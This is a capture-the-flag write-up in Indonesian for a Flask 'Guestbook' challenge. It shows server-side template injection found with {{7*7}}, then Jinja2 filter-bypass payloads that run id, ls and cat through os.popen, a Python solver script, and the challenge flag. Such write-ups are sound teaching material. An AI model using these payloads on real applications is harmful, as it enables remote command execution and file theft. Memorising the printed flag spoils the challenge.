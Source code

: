 ## Guestbook (Beta)

<details>
  <summary>Deskripsi</summary>
  
  > You know what you do!
  >
  > http://0x7e7ctf.zerobyte.me:40009/
  >
  > Author: novran
  
</details>

![1](img/1.png)

Diberikan sebuah challenge web yang diminta untuk menginputkan Nama, yang jika disubmit akan tampil Namanya

![2](img/2.png)

Kemudian kami coba cari Tech Stack pada webnya ternyata menggunakan Flask, mengingat Flask ini dapat bisa juga vulnerable dengan SSTI apabila kesalahan dalam scriptingnya.

![3](img/3.png)

Lalu kami coba lakukan exploitasi pada inputnya, setelah saya menginputkan basic payload umum pada SSTI `{{7*7}}` dan ternyata benar bahwa kita bisa melakukan SSTI disini.

![4](img/4.png)

Berikut adalah link repo segala payload yang kami gunakan untuk melakukan bypass filters https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2

![5](img/5.png)

![6](img/6.png)

```
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
```

![6](img/6.png)

```
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('ls /')|attr('read')()}}
```

![7](img/7.png)

Dapat dibuktikan bahwa payload tersebut telah berhasil dieksekusi, oleh karena itu tinggal cari flag dan baca isi file saja.

![8](img/8.png)

```
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat /app/main.py')|attr('read')()}}
```

Penyelesaian dengan Solver

```python
import requests
import re

url = "http://0x7e7ctf.zerobyte.me:40009"
endpoint = "/?name="
payload = "{{request|attr(%27application%27)|attr(%27\x5f\x5fglobals\x5f\x5f%27)|attr(%27\x5f\x5fgetitem\x5f\x5f%27)(%27\x5f\x5fbuiltins\x5f\x5f%27)|attr(%27\x5f\x5fgetitem\x5f\x5f%27)(%27\x5f\x5fimport\x5f\x5f%27)(%27os%27)|attr(%27popen%27)(%27cat%20/app/main.py%27)|attr(%27read%27)()}}"

response = requests.get(url + endpoint + payload)

flag = re.findall(r'0byteCTF\{[A-Za-z0-9_]+\}', response.text)
print(flag)
```

<details>
  <summary>Flag</summary>
  
  > `0byteCTF{Th3_M4n_wh0_Th1nks_h3_C4n_4nd_th3_M4n_wh0_Th1nks_h3_C4nt_4r3_B0th_R1ght}`
  
</details>
